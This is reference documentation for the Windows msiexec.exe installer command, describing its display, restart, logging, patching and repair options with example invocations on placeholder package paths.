You can configure what a user sees during the installation process, based on your target environment. For example, if you're distributing a package to all clients for manual installation, there should be a full UI. However, if you're deploying a package using Group Policy, which requires no user interaction, there should be no UI involved.

#### Syntax

```
msiexec.exe /i <path_to_package> [/quiet][/passive][/q{n|b|r|f}]
```

##### Parameters

| Parameter | Description |
| ------- | -------- |
| `<path_to_package>` | Specifies the location and name of the installation package file. |
| /quiet | Specifies quiet mode, which means there's no user interaction required. |
| /passive | Specifies unattended mode, which means the installation only shows a progress bar. |
| /qn | Specifies there's no UI during the installation process. |
| /qn+ | Specifies there's no UI during the installation process, except for a final dialog box at the end. |
| /qb | Specifies there's a basic UI during the installation process. |
| /qb+ | Specifies there's a basic UI during the installation process, including a final dialog box at the end. |
| /qr | Specifies a reduced UI experience during the installation process. |
| /qf | Specifies a full UI experience during the installation process. |

###### Remarks

- The modal box isn't shown if the installation is cancelled by the user. You can use **qb+!** or **qb!+** to hide the **CANCEL** button.

##### Examples

To install package *C:\example.msi*, using a normal installation process and no UI, type:

```
msiexec.exe /i "C:\example.msi" /qn
```

### Restart options

If your installation package overwrites files or attempts to change files that are in use, a reboot might be required before the installation completes.

#### Syntax

```
msiexec.exe /i <path_to_package> [/norestart][/promptrestart][/forcerestart]
```

##### Parameters

| Parameter | Description |
| ------- | -------- |
| `<path_to_package>` | Specifies the location and name of the installation package file. |
| /norestart | Stops the device from restarting after the installation completes. |
| /promptrestart | Prompts the user if a reboot is required. |
| /forcerestart | Restarts the device after the installation completes. |

##### Examples

To install package *C:\example.msi*, using a normal installation process with no reboot at the end, type:

```
msiexec.exe /i "C:\example.msi" /norestart
```

### Logging options

If you need to debug your installation package, you can set the parameters to create a log file with specific information.

#### Syntax

```
msiexec.exe [/i][/x] <path_to_package> [/L{i|w|e|a|r|u|c|m|o|p|v|x+|!|*}] <path_to_log>
```

##### Parameters

| Parameter | Description |
| ------- | -------- |
| /i | Specifies normal installation. |
| /x | Uninstalls the package. |
| `<path_to_package>` | Specifies the location and name of the installation package file. |
| /li | Turns on logging and includes status messages in the output log file. |
| /lw | Turns on logging and includes non-fatal warnings in the output log file. |
| /le | Turns on logging and includes all error messages in the output log file. |
| /la | Turns on logging and includes information about when an action started in the output log file. |
| /lr | Turns on logging and includes action-specific records in the output log file. |
| /lu | Turns on logging and includes user request information in the output log file. |
| /lc | Turns on logging and includes the initial UI parameters in the output log file. |
| /lm | Turns on logging and includes out-of-memory or fatal exit information in the output log file. |
| /lo | Turns on logging and includes out-of-disk-space messages in the output log file. |
| /lp | Turns on logging and includes terminal properties in the output log file. |
| /lp | Turns on logging and includes terminal properties in the output log file. |
| /lv | Turns on logging and includes verbose output in the output log file. |
| /lp | Turns on logging and includes terminal properties in the output log file. |
| /lx | Turns on logging and includes extra debugging information in the output log file. |
| /l+ | Turns on logging and appends the information to an existing log file. |
| /l! | Turns on logging and flushes each line to the log file. |
| /l* | Turns on logging and logs all information, except verbose information (**/lv**) or extra debugging information (**/lx**). |
| `<path_to_logfile>` | Specifies the location and name for the output log file. |

##### Examples

To install package *C:\example.msi*, using a normal installation process with all logging information provided, including verbose output, and storing the output log file at *C:\package.log*, type:

```
msiexec.exe /i "C:\example.msi" /L*V "C:\package.log"
```

### Update options

You can apply or remove updates using an installation package.

#### Syntax

```
msiexec.exe [/p][/update][/uninstall[/package<product_code_of_package>]] <path_to_package>
```

##### Parameters

| Parameter | Description |
| ------- | -------- |
| /p | Installs a patch. If you're installing silently, you must also set the REINSTALLMODE property to *ecmus* and REINSTALL to *ALL*. Otherwise, the patch only updates the MSI cached on the target device. |
| /update | Install patches option. If you're applying multiple updates, you must separate them using a semi-colon (;). |
| /package | Installs or configures a product. |

##### Examples

```
msiexec.exe /p "C:\MyPatch.msp"
msiexec.exe /p "C:\MyPatch.msp" /qb REINSTALLMODE="ecmus" REINSTALL="ALL"
msiexec.exe /update "C:\MyPatch.msp"
```

```
msiexec.exe /uninstall {1BCBF52C-CD1B-454D-AEF7-852F73967318} /package {AAD3D77A-7476-469F-ADF4-04424124E91D}
```

Where the first GUID is the patch GUID, and the second one is the MSI product code to which the patch was applied.

### Repair options

You can use this command to repair an installed package.

#### Syntax

```
msiexec.exe [/f{p|o|e|d|c|a|u|m|s|v}] <product_code>
```

##### Parameters

| Parameter | Description |
| ------- | -------- |
| /fp | Repairs the package if a file is missing. |
| /fo | Repairs the package if a file is missing, or if an older version is installed. |
| /fe | Repairs the package if file is missing, or if an equal or older version is installed. |
| /fd | Repairs the package if file is missing, or if a different version is installed. |
| /fc | Repairs the package if file is missing, or if checksum does not match the calculated value. |
| /fa | Forces all files to be reinstalled. |
| /fu | Repairs all the required user-specific registry entries. |
| /fm | Repairs all the required computer-specific registry entries. |
| /fs | Repairs all existing shortcuts. |
| /fv | Runs from source and re-caches the local package. |

##### Examples

To force all files to be reinstalled based on the MSI product code to be repaired, *{AAD3D77A-7476-469F-ADF4-04424124E91D}*, type:

```
msiexec.exe /fa {AAD3D77A-7476-469F-ADF4-04424124E91D}
```

### Set public properties

You can set public properties through this command. For information about the available properties and how to set them, see [Public Properties](/windows/win32/msi/public-properties).

### Additional References

- [Command-Line Syntax Key](https://github.com/MicrosoftDocs/windowsserverdocs/tree/master/WindowsServerDocs/administration/windows-commands/command-line-syntax-key.md)

- [Msiexec.exe Command-Line Options](/windows/win32/msi/command-line-options)

- [Standard Installer Command-Line Options](/windows/win32/msi/standard-installer-command-line-options)

---


MIT License. Copyright (c) 2020-2021 Strontic.


